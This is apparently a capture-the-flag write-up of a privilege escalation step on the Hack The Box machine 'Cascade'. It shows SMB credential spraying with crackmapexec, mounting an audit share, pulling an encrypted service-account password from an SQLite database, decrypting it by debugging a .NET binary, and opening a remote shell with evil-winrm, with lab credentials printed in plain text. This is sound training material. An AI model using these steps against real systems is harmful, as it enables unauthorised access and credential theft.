


# 15 - PrivEsc


# Audit share
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]                                                  
└──╼ $ cme smb 10.10.10.182 -u user.lst -p pass.lst  --shares                                   
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```
# Files
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade/]
└──╼ $ sudo mount -t cifs -o user='s.smith',pass='sT333ve2' //10.10.10.182/Audit\$ /mnt/cascade/audit
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ find audit/ -type f 
audit/CascAudit.exe
audit/CascCrypto.dll
audit/DB/Audit.db
audit/RunAudit.bat
audit/System.Data.SQLite.dll
audit/System.Data.SQLite.EF6.dll
audit/x64/SQLite.Interop.dll
audit/x86/SQLite.Interop.dll

```

# Database
```sql
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade/audit]
└──╼ $ sqlite3  DB/Audit.db 
sqlite> .tables
DeletedUserAudit  Ldap              Misc
sqlite> .schema Ldap
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
sqlite> Select * from LDAP;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local

```


Password seems to be encrypted and base64 encoded.

# .Net Assembly

```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ file audit/CascAudit.exe
audit/CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

.Net binaries can easily be decompiled.


# CascAudit.exe decompiled


It connects to audit.db, grabs the encrypted password and decrypts it. Setting a breakpoint on the return line of DecryptString method could give us the decrypted password. Let's go ahead and set our breakpoint and then debug it.

# Password



# New credentials
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ cme smb 10.10.10.182 -u 'arksvc'  -p 'w3lc0meFr31nd'   --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd 
```

* arksvc: w3lc0meFr31nd


# Shell
```powershell
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```